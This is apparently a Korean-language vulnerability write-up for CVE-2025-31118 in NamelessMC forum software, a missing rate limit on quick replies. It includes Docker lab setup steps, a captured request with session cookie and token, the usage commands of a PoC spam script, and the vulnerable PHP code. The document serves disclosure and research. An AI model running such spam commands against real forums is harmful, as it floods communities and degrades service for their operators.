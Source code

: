 # CVE-2025-31118

> 화이트햇 스쿨 3기 - [이정호 (@yuhano)](https://github.com/yuhano)
> 
> 취약점 제보보 및 PoC 개발을 모두 직접 수행하였습니다.




## 요약

- NamelessMC는 Minecraft 커뮤니티를 위한 무료 오픈소스 웹사이트 및 포럼 소프트웨어이다.
- `view_topic.php` 파일의 취약점으로 인해 하나의 토픽에 무한히 quick reply을 작성하거나, 토픽 번호만 변경하여 모든 게시글에 대량의 quick reply을 작성할 수 있다.
- v2.1.3 이전 버전에서 취약점이 발견되었으며, v2.2.0 버전에서 패치되었다.

## 참고자료

https://github.com/NamelessMC/Nameless/security/advisories/GHSA-jhvp-mwj4-922m

## 환경설정

1. `docker-compose.yaml` 폴더와 동일한 위치에 다음과 같은 명령어 실행
    
    ```python
    mkdir web
    chown -R 33:33 web
    ```
    
2. `docker compose up -d` 를 실행하여 테스트 환경을 실행.
3. 초기 설정 파일을 docker 로 이동 
    
    ```python
    docker cp ./contents/config.php docker_hw_test-php-1:/data/core/config.php
    docker cp ./contents/modules_enable.php  docker_hw_test-php-1:/data/modules_enable.php
    ```
    
4. http://localhost:8080/modules_enable.php 에 접속하여 초기 설정 완료 
5. http://localhost:8080 에 접속하여 topic 글이 정상적으로 보이는지 확인

### 포럼 비밀번호

- ID: a@gmail.com
- PW: nameless

## POC

단일 Topic에 대해 다량의 댓글을 작성하거나, 여러 Topic에 걸쳐 스팸 댓글을 대량으로 작성할 수 있는 POC 코드이다.

### PHPSESSID 및 TOKEN 획득

포럼 로그인 이후, topic 작성을 캡쳐하여 PHPSESSID 및 TOKEN 획득한다. 

```python
POST /panel/core/modules/?action=enable&m=2 HTTP/1.1
Host: localhost:8080
Content-Length: 38
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="135", "Not-A.Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ko-KR,ko;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,images/image/avif,images/image/webp,images/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/panel/core/modules/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6c5f097a53e7cba34d09ef9f3f167835; nmc_panel_theme=light; nl2_adm=o8EMh796p3iL0zXUP3R4WADHgjqgNVSxkNSQxTRkbd4
Connection: keep-alive

token=e8d260ccd5c5c17f0cae05150fc8af10
```

### POC  실행방법

1. **싱글 모드** (하나의 Topic에 여러 번 댓글 작성) 

```bash
python poc.py --mode single --token YOUR_TOKEN --phpsessid YOUR_PHPSESSID --topic-id 3 --count 50
```

→ 3번 Topic에 50개의 Quick Reply 작성

**2. 멀티 모드** (여러 Topic에 각각 한 번씩 댓글 작성)

```bash
python poc.py --mode multi --token YOUR_TOKEN --phpsessid YOUR_PHPSESSID --start-id 1 --end-id 100
```

→ 1번 ~ 100번 Topic에 각각 1개의 Quick Reply 작성

### 확인방법

- 싱글 모드
    - `http://localhost:8080/forum/topic/{topic-id}` 접속 → 하단에 `"Quick reply spam message {i}"`들이 쌓이는 것을 확인
- 멀티 모드
    - `http://localhost:8080/forum/view/{forum-id}` 접속 → 각 Topic에 댓글이 생성된 것을 확인

## 결과

스크립트 실행 화면

![alt text](images/image.png)

![alt text](images/image-1.png)


실제 댓글 생성 완료 화면:

![alt text](images/image-2.png)

![alt text](images/image-3.png)

## 취약점 상세 설명

`view_topic.php` 파일의 Quick Reply 기능은 댓글 작성 시 스팸 방지나 쿨다운(cooldown) 검증을 수행않는다.

이로 인해 인증된 사용자가 **수십~수백 개의 댓글을 빠르게 연속 작성**할 수 있으며, 이로 인하여 DOS을 발생시킬 수 있다. 

```php
// Quick reply
if (Input::exists()) {
    if (!$user->isLoggedIn() || !$can_reply) {
        Redirect::to(URL::build('/forum'));
    }
    if (Token::check()) {
        $validate = Validate::check($_POST, [
            'content' => [
                Validate::REQUIRED => true,
                Validate::MIN => 2,
                Validate::MAX => 50000
            ]
        ]);
    }
}
```

## 정리

해당 취약점을 통해 인증된 사용자가 특정 Topic에 무제한으로 댓글을 작성하거나, 여러 Topic에 대량으로 댓글을 작성할 수 있는 문제가 있음을 확인했다. 이로 인해 서버 자원 소모 및 서비스 장애가 발생할 수 있으므로, **v2.2.0 버전 이상으로의 업데이트**가 필요하다.